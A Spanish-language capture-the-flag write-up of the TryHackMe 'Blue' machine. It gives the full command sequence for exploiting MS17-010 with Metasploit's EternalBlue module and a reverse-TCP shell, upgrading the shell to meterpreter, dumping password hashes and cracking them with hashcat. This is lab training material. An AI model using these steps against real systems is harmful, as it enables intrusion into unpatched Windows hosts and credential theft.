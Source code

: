 ```yaml
---
layout: article
title: Blue
mode: immersive
tags: TryHackMe
aside:
  toc: true
article_header:
  type: cover
  image:
    src: /Blue.jpg
---
```


Esta es una máquina de tryHackMe
<!--more-->
---

Primero hacemos un nmap para poder ver los puertos que estan abiertos

```jsx
sudo nmap -sV 10.10.14.182
```

Y estos son los puestos que nos sale

```jsx
	PORT    STATE SERVICE      VERSION 
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
```

Viendo estos puertos podemos intentar hacer nmap con cada puerto para ver si es vulnerable la maquina

```jsx
nmap -Pn 445 --script vuln 10.10.14.182
```

Y esto nos muestra que 

```jsx
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
```

Por lo que ahora sabemos que utlizando msfsploit podemos utilizar ese exploit

```jsx
use exploit(windows/smb/ms17_010_eternalblue)
```

Cambiamos el valor del RHOSTS el cual es el objetivo del exploit

```jsx
set RHOSTS 10.10.14.182
```

Establecemos el payload siguiente para poder ganar acceso al sistema

```jsx
set payload windows/x64/shell/reverse_tcp
```

Y ejecutamos el exploit

```jsx
exploit
```

Una vez ejecutado podemos ver que nos encontramos en el sistema objetivo

```jsx
Shell Banner:
Microsoft Windows [Version 6.1.7601]
-----
          

C:\Windows\system32>
```

Una vez ya estamos dentro ponemos la sesión en segundo plano de la siguiente forma

```jsx
C:\Windows\system32>background

Background session 1? [y/N]  y
set SESSION 1
```

Y ahora para poder realizar la escalada de privilegios, cambiaremos nuestra shell a meterpreter por lo que en el msfsploit pondremos lo siguiente

```jsx
exploit(windows/smb/ms17_010_eternalblue) > search shell_to
Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade
use 0
```

Y cambiamos el modulo requerido

```jsx
set SESSION 1
```

Y volvemos a ejecutar el exploit

```jsx
exploit
```

Despues de ejecutar el exploit vemos que se nos ha generado otra sesión

```jsx
Id  Name  Type                     Information                                   Connection
  --  ----  ----                     -----------                                   ----------
  1         shell x64/windows        Shell Banner: Microsoft Windows [Version 6.1  10.9.13.70:4444 -> 10.10.14.182:49170 (10.10.
                                     .7601] -----                                  14.182)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC                  10.9.13.70:4433 -> 10.10.14.182:49179 (10.10.
                                                                                   14.182)
```

Y ponemos la sesión 2

```jsx
msf6 post(multi/manage/shell_to_meterpreter) > sessions 2
[*] Starting interaction with 2...

meterpreter >
```

Con meterpreter podemos hacer un hashdump para poder sacar los usuarios y la contaseña
```jsx

meterpreter >hashdump
```
Ahora tenemos el usuario y la contraseña, pero la contraseña esta hasheada por lo que la deshasheamos de la siguiente forma
```jsx
hashcat -m 1000 contrahasheada /usr/share/wordlists/rockyou.txt

```


Despues de obtener la contraseña hasheada y ya que estamos en meterpreter podemos  usar ls al directorio base para ver la 1º flag



Y con esto ya tendriamos acceso al sistema con meterpreter, y si hacemos un ls al directorio base veremos la 1º flag

```jsx
meterpreter > ls
Listing: C:\
============

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
040777/rwxrwxrwx  0      dir   2018-12-13 04:13:36 +0100  $Recycle.Bin
040777/rwxrwxrwx  0      dir   2009-07-14 07:08:56 +0200  Documents and Settings
040777/rwxrwxrwx  0      dir   2009-07-14 05:20:08 +0200  PerfLogs
040555/r-xr-xr-x  4096   dir   2019-03-17 23:22:01 +0100  Program Files
040555/r-xr-xr-x  4096   dir   2019-03-17 23:28:38 +0100  Program Files (x86)
040777/rwxrwxrwx  4096   dir   2019-03-17 23:35:57 +0100  ProgramData
040777/rwxrwxrwx  0      dir   2018-12-13 04:13:22 +0100  Recovery
040777/rwxrwxrwx  4096   dir   2019-03-17 23:35:55 +0100  System Volume Information
040555/r-xr-xr-x  4096   dir   2018-12-13 04:13:28 +0100  Users
040777/rwxrwxrwx  16384  dir   2023-01-26 12:26:04 +0100  Windows
100666/rw-rw-rw-  24     fil   2019-03-17 20:27:21 +0100  flag1.txt
000000/---------  0      fif   1970-01-01 01:00:00 +0100  hiberfil.sys
000000/---------  0      fif   1970-01-01 01:00:00 +0100  pagefile.sys
```

La segunda flag se encuentra en

```jsx
meterpreter > ls
Listing: C:\Windows\System32\config
===================================

Mode              Size      Type  Last modified              Name
----              ----      ----  -------------              ----
100666/rw-rw-rw-  34        fil   2019-03-17 20:32:48 +0100  flag2.txt
```

La tercera flag se encuentra en

```jsx
lmeterpreter > ls
Listing: C:\Users\Jon\Documents
===============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  0     dir   2018-12-13 04:13:31 +0100  My Music
040777/rwxrwxrwx  0     dir   2018-12-13 04:13:31 +0100  My Pictures
040777/rwxrwxrwx  0     dir   2018-12-13 04:13:31 +0100  My Videos
100666/rw-rw-rw-  402   fil   2018-12-13 04:13:48 +0100  desktop.ini
100666/rw-rw-rw-  37    fil   2019-03-17 20:26:36 +0100  flag3.txt
```